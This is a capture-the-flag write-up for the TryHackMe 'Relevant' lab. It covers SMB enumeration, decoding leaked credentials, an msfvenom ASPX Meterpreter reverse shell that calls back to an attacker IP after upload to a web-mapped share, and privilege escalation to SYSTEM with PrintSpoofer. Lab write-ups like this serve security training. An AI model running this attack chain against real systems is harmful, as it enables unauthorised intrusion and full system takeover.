# Relevant - Enumeration & Exploitation

## Machine Information

- **Target Machine:** `Relevant`
- **Platform:** [TryHackMe](https://tryhackme.com/)

---

## Step 1 — Connecting to TryHackMe VPN

```bash
openvpn <your-vpn-file>.ovpn
```

- Connected to the TryHackMe network using OpenVPN to gain access to the target machine.



---

## Step 2 — Port Scanning

```bash
nmap 10.49.161.251 -sV -sC -T4
```

- Ran a full service and script scan against the target.
- Discovered **SMB** running on port **445**.



---

## Step 3 — SMB Enumeration & Share Access

```bash
smbclient -L <TARGET IP>
smbclient //<TARGET IP>/nt4wrksv
```

- Used `smbclient` to list available shares on the target machine.
- Discovered a share named **nt4wrksv**.
- Successfully connected to the share without credentials.



---

## Step 4 — Downloading Files from SMB Share

```bash
get passwords.txt
```

- Enumerated the contents of the `nt4wrksv` share.
- Found a file called `passwords.txt` and downloaded it using the `get` command.
- The file contained **2 sets of credentials in encoded form**.



---

## Step 5 — Decoding User 1 Credentials

- Copied the first encoded string into a **Base64 decoder** (e.g., [base64decode.org](https://www.base64decode.org/)).
- Successfully recovered the **plaintext username and password** for User 1.



---

## Step 6 — Decoding User 2 Credentials

- Repeated the same Base64 decoding process for the second encoded string.
- Successfully recovered the **plaintext username and password** for User 2.



---

## Step 7 — Creating a Malicious Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.128.186 LPORT=4443 -f aspx -o payload.aspx
```

| Flag | Description |
|------|-------------|
| `-p windows/x64/meterpreter/reverse_tcp` | Payload type — staged reverse TCP Meterpreter for Windows x64 |
| `LHOST=192.168.128.186` | Attacker's OpenVPN IP address |
| `LPORT=4443` | Port the attacker will listen on |
| `-f aspx` | Output format as ASPX (web executable on Windows IIS) |
| `-o payload.aspx` | Output file name |

- Generated a reverse shell payload in `.aspx` format using `msfvenom`.
- ASPX was chosen because the SMB share was mapped to a web-accessible directory on the target (IIS).
- This means uploading the file to the share would allow us to trigger it via the browser.



---

## Step 8 — Uploading the Payload to the SMB Share

```bash
smbclient //<TARGET IP>/nt4wrksv
put payload.aspx
```

- Reconnected to the `nt4wrksv` SMB share.
- Uploaded `payload.aspx` to the share using the `put` command.



---

## Step 9 — Setting Up Metasploit Multi/Handler

```bash
msfconsole
use multi/handler
```

- Launched Metasploit and loaded the `multi/handler` module.
- `multi/handler` is used instead of Netcat because it can manage **staged payloads** — it automatically delivers the remaining payload code into the target's memory once the initial connection is made, ensuring a stable and reliable Meterpreter session.



---

## Step 10 — Configuring and Running the Handler

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <OpenVPN IP>
set LPORT 4443
run
```

- Set the payload to match the one used during creation: `windows/x64/meterpreter/reverse_tcp`.
- Set `LHOST` to the attacker's OpenVPN IP and `LPORT` to `4443`.
- Started the listener and waited for an incoming connection.



---

## Step 11 — Triggering the Payload

```bash
http://10.49.161.251:49663/nt4wrksv/payload.aspx
```

- Navigated to the uploaded `payload.aspx` file via the browser.
- This triggered the ASPX file on the IIS web server, executing the reverse shell payload.



---

## Step 12 — Meterpreter Shell Obtained

```bash
shell
```

- Received an incoming Meterpreter session on the handler.
- Dropped into a standard system shell from the Meterpreter session.



---

## Step 13 — User Flag Found

```bash
cd C:\Users\Bob\Desktop
type user.txt
```

- Navigated to `C:\Users\Bob\Desktop`.
- Retrieved and read the **user flag** from `user.txt`.



---

## Step 14 — Privilege Escalation Enumeration

```bash
getprivs
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

- Ran `getprivs` inside the Meterpreter shell to list available privileges.
- Identified **SeImpersonatePrivilege** — a privilege that can be abused to escalate to SYSTEM.
- Downloaded the **PrintSpoofer64.exe** exploit from GitHub to the attacker machine.



---

## Step 15 — Uploading PrintSpoofer to the Target

```bash
smbclient //<TARGET IP>/nt4wrksv
put PrintSpoofer64.exe
```

- Used `smbclient` to upload `PrintSpoofer64.exe` to the `nt4wrksv` share — the same method used to upload the initial payload.



---

## Step 16 — Executing PrintSpoofer for Root Access

```bash
cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer64.exe -i -c powershell.exe
```

| Component | Description |
|-----------|-------------|
| `PrintSpoofer64.exe` | Exploit that abuses `SeImpersonatePrivilege` to escalate to SYSTEM |
| `-i` | Interact with the spawned process |
| `-c powershell.exe` | Command to execute — spawns a PowerShell session as SYSTEM |

- Navigated to the directory where `PrintSpoofer64.exe` was uploaded via the SMB share.
- Executed PrintSpoofer, which abused `SeImpersonatePrivilege` to spawn a **SYSTEM-level PowerShell session**.
- Successfully escalated privileges to **root/SYSTEM**.



---

## Summary

| Stage | Detail |
|-------|--------|
| **Open Ports** | SMB on port 445 |
| **Initial Access** | SMB share `nt4wrksv` → uploaded ASPX payload → Meterpreter shell |
| **Credentials Found** | `passwords.txt` in SMB share → Base64 decoded |
| **User Flag** | Retrieved from `C:\Users\Bob\Desktop\user.txt` |
| **Privilege Escalation** | `SeImpersonatePrivilege` → PrintSpoofer64 → SYSTEM shell |
| **Root Flag** | Retrieved after SYSTEM access |
